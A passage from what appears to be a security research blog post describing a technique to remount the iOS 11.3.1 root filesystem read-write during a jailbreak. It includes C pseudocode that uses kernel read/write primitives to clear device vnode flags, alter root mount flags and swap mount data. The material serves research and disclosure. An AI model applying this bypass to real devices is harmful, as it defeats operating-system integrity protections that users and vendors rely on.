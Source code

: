 In vfs_mountedon(), it gets v_specflags from the device vnode, and checks it with SI_MOUNTEDON and SI_ALIASED flags.

![vfs_mountedon]({{ site.baseurl }}/assets/image/apfs-remount/image006.png)
 
In our solution, we clear the device vnode’s v_specflags to bypass this vfs_moutedon() check. 

Finally, the pseudocode of our bypass to remount the root filesystem as RW is as follows
{% highlight C %}
void remountRootAsRW(){
  char *devpath = strdup(“/dev/disk0s1s1”);
  uint64_t devVnode = getVnodeAtPath(devpath);
  writeKern(devVnode + off_v_specflags, 0); // clear dev vnode’s v_specflags

  /* 1. make a new mount of the device of root partition */
  char *newMPPath = strdup(“/private/var/mobile/tmp”);
  createDirAtPath(newMPPath);
  mountDevAtPathAsRW(devPath, newMPPath);

  /* 2. Get mnt_data from the new mount */
  uint64_t newMPVnode = getVnodeAtPath(newMPPath);
  uint64_t newMPMount = readKern(newMPVnode + off_v_mount);
  uint64_t newMPMountData = readKern(newMPMount + off_mnt_data);

  /* 3. Modify root mount’s flag and remount */
  uint64_t rootVnode = getVnodeAtPath(“/”);
  uint64_t rootMount = readKern(rootVnode + off_v_mount);
  uint32_t rootMountFlag = readKern(rootMount + off_mnt_flag);
  writeKern(rootMount + off_mnt_flag, rootMountFlag & ~ ( MNT_NOSUID | MNT_RDONLY | MNT_ROOTFS));
  mount(“apfs”, “/”, MNT_UPDATE, &devpath);

  /* 4. Replace root mount’s mnt_data with new mount’s mnt_data */
  writeKern(rootMount + off_mnt_data, newMPMountData);
}
{% endhighlight %}

In this code, readKern() reads value from a kernel address and writeKern() writes value to a kernel address, which can be found in jailbreaks like Xerub, Electra, V0rtex, mach_portal, or Qilin toolkit. getVnodeAtPath() is our gadget to get the vnode address of a path, which employs Ian Beer’s technique to execute code in kernel. 

With our bypass, you now have a RW root filesystem. You can make changes to system files, install binaries in unsandboxed paths, etc. The following picture shows a successful file remount status and JB on iOS 11.3.1:

![jb]({{ site.baseurl }}/assets/image/apfs-remount/image007.png)
 
## 0x05 Conclusion

One thing you should know about this bypass is that modifications you make to the root filesystem will be discarded after you reboot. So, this is an untethered remount solution (we may discuss persistent file system remount solutions in a near future). But, apparently, this is enough for most current jailbreaks. Another thing should be noted is that the solution was proposed on iOS 11.3.1. After that, Apple has deployed new mitigation on iOS. That means, the solution in this blog may not work on iOS 12.
